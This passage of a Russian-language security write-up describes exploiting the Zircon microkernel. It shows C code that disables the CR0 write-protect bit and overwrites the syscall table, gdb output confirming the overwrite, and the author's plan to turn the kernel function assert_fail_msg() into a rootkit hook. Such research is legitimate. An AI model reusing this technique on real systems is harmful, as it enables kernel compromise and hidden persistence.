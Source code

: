 ```c
#define SYSCALL_TABLE 0xffffffff003c49f8
#define SYSCALL_COUNT 176

int pwn(void)
{
  unsigned long cr0_value = read_cr0();

  cr0_value = cr0_value & (~0x10000); // Set WP flag to 0

  write_cr0(cr0_value);

  memset((void *)SYSCALL_TABLE, 0x41, sizeof(unsigned long) * SYSCALL_COUNT);
}
```

Функции записи и чтения контрольного регистра `CR0`:

```c
void write_cr0(unsigned long value)
{
  __asm__ volatile("mov %0, %%cr0" : : "r"(value));
}

unsigned long read_cr0(void)
{
  unsigned long value;
  __asm__ volatile("mov %%cr0, %0" : "=r"(value));
  return value;
}
```

Результат перезаписи таблицы системных вызовов виден в отладчике:

```
(gdb) x/178xg 0xffffffff003c49f8
0xffffffff003c49f8:	0x4141414141414141	0x4141414141414141
0xffffffff003c4a08:	0x4141414141414141	0x4141414141414141
0xffffffff003c4a18:	0x4141414141414141	0x4141414141414141
...
0xffffffff003c4f58:	0x4141414141414141	0x4141414141414141
0xffffffff003c4f68:	0x4141414141414141	0x4141414141414141
0xffffffff003c4f78 <_ZN6cpu_idL21kTestDataCorei5_6260UE>:	0x0300010300000300	0x0004030003030002
```

Это сработало. Отлично. Я стал думать, как осуществить перехват системных вызовов микроядра. Сделать это по аналогии с поведением ядерных руткитов для Linux было невозможно. Дело в том, что обычно руткит для Linux — это ядерный модуль, в котором хуки (функции-перехватчики) реализованы как функции этого модуля __в пространстве ядра__. А в моем случае я пытался поставить руткит в микроядро из эксплойта в __пользовательском пространстве__. Код из эксплойта не мог работать как ядерный хук, потому что он присутствовал только в адресном пространстве моего пользовательского процесса.

Поэтому я решил превратить в хук руткита какой-либо имеющийся в Zircon код. Первым кандидатом на перезапись стала ядерная функция `assert_fail_msg()`, которая меня конкретно достала, пока я разрабатывал свой прототип эксплойта. Размер этой функции был достаточно большим, чтобы разместить вместо нее мой хук для руткита.
